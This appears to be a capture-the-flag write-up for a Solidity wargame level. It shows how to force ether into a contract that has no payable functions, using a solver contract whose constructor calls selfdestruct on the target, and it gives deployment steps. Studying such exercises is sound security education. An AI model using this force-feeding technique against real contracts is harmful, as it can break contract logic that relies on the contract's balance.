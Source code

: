 #### You will beat this level if
Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

##### Things that might help
- Fallback methods
- Sometimes the best way to attack a contract is with another contract.

#### Understanding the contract
- This challenge contract does not have any variables or functions... or goal is simply to force the contract to take ether

#### Solving
- This challenge can be solved using the [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/) method
- Using a second contract, we can force eth onto the challenge contract using the ``selfdestruct`` method
```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.4;

contract ForceSolver {

constructor (address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }

}
```
- When deploying this contract, use the challenge contract address as an argument for the constructor.
- Send an amount in wei when deploying the contract
- After the contract is deployed, running ``await web3.eth.getBalance('CONTRACT ADDRESS')`` should so a balance for the contract reflecting the amount of wei that was sent when the solver contract was deployed